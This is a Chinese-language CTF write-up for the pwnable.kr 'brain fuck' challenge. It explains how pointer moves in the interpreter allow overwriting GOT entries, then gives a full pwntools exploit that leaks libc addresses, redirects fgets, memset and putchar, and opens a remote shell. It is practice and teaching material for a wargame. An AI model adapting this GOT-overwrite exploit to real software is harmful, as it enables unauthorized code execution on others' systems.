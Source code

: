 ```yaml
---
title: pwnable.kr-brain fuck
date: 2016-10-16
tags: [pwnable]
categories: [pwnable]
---
```

## 0x00 Tips
程序如下：

![](http://of2tuat08.bkt.clouddn.com/16-10-19/34576045.jpg)

- \>  指针右移
- <  指针左移
- .  输出指针指向的内容
- ,  向指针写入


所以利用的方法：
- 修改fgets的got内容为system地址
- 修改memset的got表内容为gets地址
- 修改puchar的got表内容为main程序地址

这样在程序执行memset时会读入/bin/sh字符串，执行fgets时会执行system（"/bin/sh"）

![](http://of2tuat08.bkt.clouddn.com/16-10-19/6877717.jpg)

## 0x01 Exp：
```python
#!/usr/bin/env python
from pwn import *
import time
DEBUG = 0
if DEBUG == 1:
    p = process('./bf')
    context.log_level ='debug'
else:
    p = remote('pwnable.kr','9001')
    context.log_level ='debug'

libc = ELF('./bf_libc.so')
addr_main =  0x8048671
addr_tape = 0x0804a0a0
addr_p = 0x804a080

got_putchar = 0x804a030
got_puts = 0x804a018
got_memset = 0x804a02c
got_fgets = 0x804a010

#offset_fgets = 0x00064bc0
#offset_system = 0x0003f0b0
#offset_gets = 0x00065e90

p.recvuntil('type some brainfuck instructions except [ ]')
payload = '<'*(addr_tape - got_fgets)
payload += '.>'*4 #leak fgets addr
payload += '<'*4 + ',>'*4 #write system addr
payload += '<'*4
payload += '>'*(got_memset-got_fgets)
payload += ',>'*4 #write gets addr
payload += '<'*4
payload += '>'*(got_putchar - got_memset)
payload += ',>'*4 #write main addr
payload += '.'
p.sendline(payload)
time.sleep(1)
print p.recv(1)
addr_fgets = u32(p.recv(4))
print '[+] fgets addr : '+hex(addr_fgets)

addr_system = addr_fgets - libc.symbols['fgets'] + libc.symbols['system']
addr_gets = addr_fgets - libc.symbols['fgets'] + libc.symbols['gets']
print '[+] system addr : '+hex(addr_system)
print '[+] gets addr : '+hex(addr_gets)

p.send(p32(addr_system))
p.send(p32(addr_gets))
p.send(p32(addr_main))

p.sendline('/bin/sh\x00')
p.interactive()
```
